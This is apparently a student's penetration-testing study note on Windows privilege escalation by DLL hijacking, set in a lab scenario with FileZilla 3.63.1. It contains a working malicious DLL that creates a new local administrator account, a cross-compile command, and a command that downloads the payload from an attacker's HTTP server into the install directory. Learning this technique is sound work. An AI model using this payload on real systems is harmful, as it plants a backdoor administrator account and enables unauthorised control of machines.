



---
aliases:
  - DLL Hijacking
---
# DLL Hijacking
Compared to [Service Binary Hijacking](hijacking-service-binaries.md), DLL Hijacking is a more advanced technique for [Windows privesc](../README.md). Keep this in your back pocket for *when the user account doesn't have the required permissions* to do service binary hijacking.
## DLL Overview
[Dynamic Link Libraries](../../../computers/windows/DLL.md) (DLLs) are libraries on [Windows](../../../computers/windows/README.md) operating systems which provide resources like code, icon files, etc. for *other programs to use*. For developers, they provide an easy way to integrate functionality *which already exists* in the Windows OS so they don't have to re-write commonly used code and functions and resources. 

Without DLLs,  components would need to include commonly used components and functionality *in their own source code* which is a huge waste of resources, time, and space. [Linux](../../../computers/linux/README.md) systems have a similar concept called "Shared Objects".  
### DLL Attaching
Each DLL has an (optional) *entry point function* called `DllMain`. This function executes when another process or thread *"attaches" the DLL*. Generally, `DllMain` contains four cases depending on the context when the DLL is attached:
- `DLL_PROCESS_ATTACH`
- `DLL_THREAD_ATTACH`
- `DLL_THREAD_DETACH`
- `DLL_PROCESS_DETACH`

All of the cases handle the different contexts for when the DLL *is loaded or unloaded* by a calling process or thread. Each case is responsible for various initialization or exiting tasks. 

If a DLL *doesn't have `DllMain`* then it's likely a DLL that *only provides resources* (instead of functionality). 
#### `DllMain` Example
The following is an [example from Microsoft](https://docs.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#the-dll-entry-point) of the [C++](../../../coding/languages/CPP.md) code of a DLL including its `DllMain` function and the four above cases:
```C++
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved

{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
		
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
		
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
## Exploitation
There are several ways to exploit DLLs for privesc.
### DLL Hijacking
For privilege escalation, one common way is similar to service binary hijacking where we just *replace or overwrite a DLL with our own malicious code*. This can work but can also cause issues because *whatever programs are calling that DLL may break* if our malicious DLL doesn't perform the same as the original DLL we replaced. 

We would still get code execution *but we're also more likely to be detected*.
### DLL Search Order Hijacking
Another technique is to hijack the [_DLL search order_](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order) which determines what the OS *should inspect first* when searching for a specific DLL. All current Windows versions are designed by default to have *Safe DLL Search Mode* enabled.
#### Safe DLL Search Mode
This setting was implemented to mitigate DLOL Search Order Hijacking by making it more difficult. Per the documentation, the standard search order is:
1. The directory from which the application loaded
2. The system directory
3. The 16-bit system directory
4. The Windows directory 
5. The current directory
6. The directories that are listed in the PATH environment variable

When safe search mode is enabled *item 5* (the current directory) *is moved to the second position in the order* after the application's directory (where it was loaded).
#### Vulnerability
When the currently executing binary is attempting to load a  *DLL that is missing* (doesn't exist on the system), this introduces a vulnerability that we can exploit. Even though the DLL is missing, the program is likely to continue its execution, even if it causes a flaw in its functionality. Additionally, the search for the correct DLL will continue down the search order list.

We can place a malicious DLL somewhere in the search order. When the program calls the missing DLL, and searches through the directories listed in the search order, it will find ours and execute it. 
## Example Scenario
> [!Note]
> For this scenario, continue to assume we are connected to the victim machine w/ hostname `CLIENTWK220`, but this time as the user `steve` (as other sections of the windows privesc notes). Assume we've connected to the client box via [RDP](../../../networking/protocols/RDP.md) with the password `securityIsNotAnOption++++++`.

As the `steve` user, lets [enumerate](../enumeration/enumeration.md) the applications installed on this machine (using `Get-ItemProperty` with the registry for installed programs):
```powershell
PS C:\Users\steve> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

displayname
-----------

FileZilla 3.63.1
KeePass Password Safe 2.51.1
Microsoft Edge
Microsoft Edge Update
Microsoft Edge WebView2 Runtime

Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.28.29913
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.28.29913
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.28.29913
Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913
```
In the output, we can see that `FileZilla 3.63.1` is installed. This is a [FTP](../../../networking/protocols/FTP.md) client. Based on the current version, this app is *vulnerable to DLL hijacking* ([Exploit Database listing](https://www.exploit-db.com/exploits/51267)). Based on the FileZilla code, when the app starts, it tried to load the `TextShaping.dll` DLL from its own *installation directory*. 

If we can place a malicious file there in place of the original DLL, then when someone executes FileZilla, our DLL will be loaded *and adopt the permissions of the current user* who starts the program.
### Testing Permissions
Before replacing the DLL with out malicious version, we should check to make sure we even have write permission to the installation directory. We can do that easily from the command line:
```powershell
PS C:\Users\steve> echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'

PS C:\Users\steve> type 'C:\FileZilla\FileZilla FTP Client\test.txt'
test
```
### Using Procmon to Track DLL Search Order
We should also try to identify *all of the DLLs* that FileZilla loads when it executes. We can do that by using the [_Process Monitor_](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) which will display real-time info about each process, thread, file system, and registry-related activities. 

Unfortunately, *we need admin privileges to start Process Monitor*. So, we can either CHEAT by using admin creds that we found (refer to the other notes in this section) OR, we can try to install the vulnerable FileZilla onto a Windows [VM](../../../computers/containers-vms/virtual-machines.md) and run Process Monitor as `Administrator`. 

Whether on a VM or the target machine, find Process Monitor by searching in the Explorer for `C:\tools\Procmon\Procmon64.exe`. When it asks for admin creds, punch them in. 

This is a lot of info, so let's add a filter by clicking on "Filter" > "Filter...". This will open "Process Monitor Filter" which gives us input boxes to create filter conditions. We want to only see events *related to FileZilla* so our condition should read "**Process Name**" "**is**" "**filezilla.exe**" then "**Include**".

Once we enter those and click "Add" and then "Apply", we should see that all of the output in Procmon is limited to events related to `filezilla.exe`. If there are lingering events, clear them with "Clear."

Now we can run the FileZilla executable and watch what happens in Procmon. Once the application has started we should see a bunch of events appear. To further narrow down the results to find the specific DLL we want to eventually replace (`TextShapping.dll`). We can do that by adding another filter like so:

Once we apply this second filter, the results in Procmon should be greatly reduced. 

In the output, we notice that the first "CreateFile" operation event related to the `TextShaping.dll` DLL happens when FileZilla attempts to load the DLL from the path `C:\FileZilla\FileZilla FTP Client\TextShaping.dll`, but the result is a `NAME NOT FOUND` error. Then two more "CreateFile" operations happen when FileZilla attempts to load the DLL from the `System32` directory instead.
### Exploitation
Since we've confirmed the DLL search order the vulnerable FileZilla version follows, we can now try to exploit it by placing our malicious DLL at the installation directory (where it first tries, then fails to load the actual DLL). 
#### Our Malicious Code
Referring back to how [DLL Attaching](DLL-hijacking.md#DLL%20Attaching) works, we know that the actual `TextShaping.dll` DLL is loaded by a process meaning that when `DllMain()` executes, the `DLL_PROCESS_ATTACH` case will be met. In our own malicious DLL, this is where we can place our exploit code:
```C++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
		
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
		
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Note that we're importing the header files `stdlib.h` and `windows.h` so we can make use of Windows specific data types and system function calls. We've added code to the `DLL_PROCESS_ATTACH` case which does the following:
- declares an int called `i`
- sets `i` equal to `net user dave3 password123! /add`
- sets `i` equal to `net localgroup administrators dave3 /add`

The code makes two system calls, one which uses the `net` command to create `dave3` with our custom password, and another which adds `dave3` to the local `Administrators` group.
#### Compiling & Transferring our DLL
If we've written this on our attacking box, then we need to *cross compile it* into a Windows 64-bit executable. We can use `mingw` to do that:
```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```
Once our DLL is compiled, we can transfer it to our target machine (or the VM first if we want to test it). If we're moving it to the victim machine *we want to make sure it's deposited in the correct folder* (the FileZilla installation directory). We can do that by using `iwr` (to fetch the file from our already running python HTTP server) and giving it the `-OutFile` flag:
```powershell
PS C:\Users\steve> iwr -uri http://192.168.48.3/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
#### Execution
For our DLL to be executed, FileZilla needs to be started/ ran by someone. Note that *the DLL will inherit the privileges of the user who starts `filezilla.exe`*, so, if we start it as `steve` and he doesn't have high enough privilege to *create the new user `dave3`* then our malicious DLL won't work.

Fortunately, we don't have to start the application on our own. We can wait for another user to trigger it. Once that happens, we'll know our DLL successfully added `dave3` when its listed in the output of `net user`:
```powershell
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220
-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave3                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave3
daveadmin
offsec
The command completed successfully.
```

> [!Resources]
> - [_Dynamic Link Libraries_](https://docs.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library)
> - [_DLL search order_](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
> - [Exploit Database](https://www.exploit-db.com/exploits/51267)
> - [Microsoft: Example `DllMain` Code](https://docs.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#the-dll-entry-point)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
